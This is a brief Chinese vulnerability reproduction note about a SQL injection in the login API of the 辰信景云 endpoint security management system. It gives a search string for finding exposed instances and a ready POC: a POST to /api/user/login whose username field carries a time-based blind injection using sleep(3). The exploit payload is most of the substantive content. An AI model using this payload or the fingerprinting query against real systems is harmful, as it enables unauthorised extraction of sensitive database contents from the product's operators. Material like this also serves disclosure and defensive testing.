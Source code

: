 # 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

## 漏洞描述

辰信领创 辰信景云终端安全管理系统 login存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>辰信领创 辰信景云终端安全管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"辰信景云终端安全管理系统"</a-checkbox></br>

## 漏洞复现、

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1653535043300-0848f113-f483-47b4-bd33-305485f46ae8.png)

验证POC

```java
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1653535112545-1861e3cf-b0ac-4a04-9851-3b6ccb377bd1.png)